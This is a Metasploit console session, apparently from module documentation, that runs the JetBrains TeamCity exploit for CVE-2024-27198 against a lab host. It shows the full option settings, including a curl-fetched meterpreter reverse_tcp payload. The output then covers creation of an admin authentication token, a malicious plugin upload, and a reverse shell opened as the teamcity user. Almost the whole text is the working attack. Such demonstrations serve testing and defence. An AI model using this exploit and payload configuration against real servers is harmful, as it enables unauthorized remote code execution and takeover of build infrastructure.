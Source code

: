 ```
   RHOSTS             192.168.86.43    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT              8111             yes       The target port (TCP)
   SSL                false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI          /                yes       The base path to TeamCity
   TEAMCITY_ADMIN_ID  1                yes       The ID of an administrator account to authenticate as
   VHOST                               no        HTTP server virtual host


Payload options (cmd/linux/http/x64/meterpreter/reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_COMMAND       CURL             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      cWStJXIvdtmM     no        Name to use on remote system when storing payload; cannot contain spaces or slashes
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR  /tmp             yes       Remote writable dir to store payload; cannot contain spaces
   LHOST               eth0             yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   3   Linux Command



View the full module info with the info, or info -d command.

msf6 exploit(multi/http/jetbrains_teamcity_rce_cve_2024_27198) > exploit

[*] Started reverse TCP handler on 192.168.86.42:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. JetBrains TeamCity 2023.11.3 (build 147512) running on Linux.
[*] Created authentication token: eyJ0eXAiOiAiVENWMiJ9.NVAxemdUTVFnSlp4Um1jdkN5Yi12dk1wNkJR.NTIyNTA1NjgtOWM3Zi00YzdiLTkzMTEtYTc2Y2ZkZjRjYTVl
[*] Uploading plugin: CyGZ1ME5
[*] Sending stage (3045380 bytes) to 192.168.86.43
[*] Deleting the plugin...
[*] Meterpreter session 4 opened (192.168.86.42:4444 -> 192.168.86.43:55572) at 2024-02-23 14:24:37 +0000
[*] Deleting the authentication token...
[!] This exploit may require manual cleanup of '/opt/TeamCity/work/Catalina/localhost/ROOT/TC_147512_CyGZ1ME5' on the target
[!] This exploit may require manual cleanup of '/home/teamcity/.BuildServer/system/caches/plugins.unpacked/CyGZ1ME5' on the target

meterpreter > getuid
Server username: teamcity
meterpreter > sysinfo
Computer     : 192.168.86.43
OS           : Ubuntu 22.04 (Linux 6.5.0-15-generic)
Architecture : x64
```